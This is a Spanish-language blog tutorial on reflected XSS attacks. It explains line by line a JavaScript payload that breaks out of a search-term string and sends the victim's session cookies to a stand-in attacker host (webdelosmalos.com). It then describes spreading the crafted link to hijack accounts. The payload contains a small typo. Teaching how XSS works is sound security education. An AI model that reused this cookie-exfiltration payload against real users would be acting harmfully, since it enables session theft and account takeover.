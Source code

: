 ```yaml
---
layout: post
title: Ataque XSS Reflejado
category: Hacking
comments: true
description: El ataque XSS Reflejado consiste que el atacante comparta un link creado a sus victimas para que estas lo ejecuten y por conseguir su sesion o control sobre su navegador. El vector de ataque XSS o Cross Site Scripting, es una de las vulnerabilidades más extendidas en las paginas web, según OWASP es la tercera en importancia en su TOP 10.
tags:
    - hijacking

    - owasp
    - xss  
---
```


El ataque XSS Reflejado consiste que el atacante comparta un link creado a sus victimas para que estas lo ejecuten y por conseguir su sesion o control sobre su navegador.

Según la Open Web Application Security Project (Owasp), es desde ya casi diez años, la vulnerabilidad numero tres, de su [top diez](https://www.owasp.org/index.php/Top_10_2013-A3-Cross-Site_Scripting_(XSS)){:target="_blank"}. 

## Para practicar

Te recomiendo que uses esta pagina web: [hackyourselffirst.troyhunt.com](http://hackyourselffirst.troyhunt.com){:target="_blank"}. Es una pagina vulnerable hecho a posta para poder probar todas las vulnerabilidades web de Owasp, esta creada por el hacker etico [Troy Hunt](https://www.troyhunt.com/){:target="_blank"}. 
Tiene varios cursos de hacking en [Pluralsight](https://app.pluralsight.com/library/){:target="_blank"} te recomiendo que te subscribas a Pluralsight y los hagas.

## Ejecutando el ataque

En este ataque conseguiremos robar las cookies de sesion del usuario que entre al enlace que hemos pasado. 

Por ejemplo en nuestra web *miejemplo.com* en el buscador, buscamos por lechugas, y como vimos antes lo que ejecutamos en el buscador se refleja en el html sin niguna defensa, es decir si escribieramos < i >lechugas</ i > saldria *lechugas*, por lo que buscamos la palabra "lechugas" en el codigo fuente de la aplicación.
Al hacerlo vemos que esta el termino en varios sitios, y uno de ellos esta en el javascript.

{% highlight html linenos %}

  $('#searchTerm').val('lechugas');


{% endhighlight %}

Asi que podriamos montar un ataque que nos diera las cookies de sesion y asi poder acceder a la cuenta del usuario. ver [¿Que es session hijacking?]({% post_url 2017-05-26-que-es-session-hijacking %})


Este seria nuestro payload o codigo malicioso que añadiriamos a la url para pasarselo a nuestra victima:


{% highlight html linenos %}

  '); var img = document.createElement("img");img.src="http://webdelosmalos.com/LogCookies?cookies="+document.cookie;document.body.appenchild(img);$('h2').text('todo ok');//

{% endhighlight %}

EL codigo explicado seria asi:

{% highlight html linenos %}

'); 
var img = document.createElement("img");
img.src="http://webdelosmalos.com/LogCookies?cookies="+document.cookie;
document.body.appenchild(img);
$('h2').text('todo ok');
//

{% endhighlight %}

__linea 1__ como en slq injection cerramos las comillas y parentesis de la busqueda original para injectar nuestro payload en el javascript

__linea 2__ creamos un elemento img (tag imagen de html) y lo guardamos en una variable.

__linea 3__ en elemento img creado anteriormente le añadimos la url, deberia ser una imagen cualquiera, pero es de nuestra web mala y en pasamos como parametro los datos de las cookies de la victima.

__linea 4__ añadimos nuestra imagen la body del html

__linea 5__ para que el empleado no sospeche añadimos un texto en donde deberia ir el texto de busqueda original.

__linea 6__ igual que en el sql injection, todo lo que vaya posterior a nuestro payload lo comentamos para que no nos afecte.

Y con esto, solo necesitariamos añadirlo a la url original y pasar en enlace por las redes sociales, por email... y que nuestra victima picara, y al momento tendriamos en nuestra web las cookies de sesion de la victima, ya podriamos entrar como ella.




